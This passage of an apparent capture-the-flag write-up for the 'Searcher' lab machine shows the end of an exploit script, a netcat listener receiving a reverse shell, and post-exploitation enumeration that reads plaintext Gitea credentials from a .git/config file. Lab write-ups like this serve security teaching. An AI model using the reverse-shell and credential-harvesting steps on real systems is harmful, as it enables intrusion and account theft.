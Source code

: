 ```python
r = requests.post(url, data=params, headers=headers)

print(r.content)
```

With the listened on port 4444 :

```
nc -nvlp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.208.
Ncat: Connection from 10.10.11.208:40434.
/bin/sh: 0: can't access tty; job control turned off
$ 
```

we now have a shell on target host

## Post-Exploitation

### Host Reconnaissance

We can start by enumerating current directory:

```shell
$ ls -la
```

Result:

```text
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 .
drwxr-xr-x 4 root     root     4096 Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1 14:22 app.py
drwxr-xr-x 8 www-data www-data 4096 May 16 11:38 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1 14:35 templates
```

There is a `.git` folder that contains credentials :

```shell
$ cat .git/config
```

Result:

```text
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
